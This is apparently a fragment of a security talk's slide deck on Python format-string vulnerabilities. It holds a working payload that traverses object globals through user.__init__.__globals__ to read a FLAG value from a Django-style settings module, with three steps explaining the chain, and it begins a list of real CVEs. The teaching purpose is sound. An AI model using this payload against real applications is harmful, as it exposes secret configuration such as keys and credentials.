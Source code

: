 
No problem!

```python
{user.__init__.__globals__[__loader__] \
 .__init__.__globals__[sys].modules[HealthyBMI.settings] \
 .__dict__[FLAG]} 

# user_controlled_string.format(user=request.user)
```

1. Get loader (importer).
2. Get module.
3. Get global symbol.

<style scoped>
    img[alt~="img1"] {
        position: absolute;
        top: 370px;
        left: 650px;
        width: 550px;
    }
</style>
![img1](assets/healthybmi-settings.png)

<br/>



---

## Real Problems, Real Vulns

Various Python format-string CVEs:

<style scoped>
    ul p { margin-bottom: 0; }
    ul ul p { margin-top: 0.25rem; }
    ul pre { margin-top: 0.5rem; }
</style>
